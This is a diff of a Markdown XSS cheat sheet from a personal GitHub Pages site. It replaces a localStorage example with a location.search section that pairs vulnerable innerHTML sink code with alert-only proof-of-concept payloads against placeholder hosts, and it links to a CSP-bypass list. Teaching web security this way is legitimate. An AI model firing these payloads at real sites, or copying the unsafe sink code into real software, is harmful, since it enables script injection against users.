

Before and after one commit to RHYru9/rhyru9.github.io, a Markdown page: bug/xss-cheatsheet/readme.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/bug/xss-cheatsheet/readme.md
+++ b/bug/xss-cheatsheet/readme.md
@@ -156,24 +152,26 @@ https://victim.com/?state="><script>alert(1)</script>
 ```
+
+This payload manipulates the URL path to inject an image with an `onerror` event that triggers JavaScript execution.
 
 ---
 
-### 9. **`localStorage` and `sessionStorage`**
-Data stored in `localStorage` or `sessionStorage` can be abused if accessed or set with unsafe input.
+### 9. **`location.search`**
 
-**Example XSS:**
-```bash
-https://victim.com/?payload="><script>alert(1)</script>
+#### **JavaScript Code Example:**
+```javascript
+document.body.innerHTML = "Search: " + location.search;
 ```
 
-**Code:**
+#### **Explanation:**
+`location.search` returns the query string part of the URL, including the `?`. By directly inserting the query string into the DOM using `innerHTML`, attackers can manipulate the query string to include malicious scripts.
+
+#### **PoC:**
 ```html
-<script>
-    var params = new URLSearchParams(window.location.search);
-    var payload = params.get('payload');
-    localStorage.setItem('data', payload);
-    document.write("Stored payload is: " + localStorage.getItem('data'));
-</script>
+http://example.com/?search="><img src="x" onerror="alert('XSS')">
 ```
+
+This payload manipulates the query string to inject an image with an `onerror` event that triggers JavaScript execution.
+
 
 **blocked by csp?**
 - [https://raw.githubusercontent.com/RHYru9/rhyru9.github.io/refs/heads/main/bug/xss-cheatsheet/csp.txt](https://raw.githubusercontent.com/RHYru9/rhyru9.github.io/refs/heads/main/bug/xss-cheatsheet/csp.txt)
````
Also changed, not shown: other parts of bug/xss-cheatsheet/readme.md (+91 -95 lines).
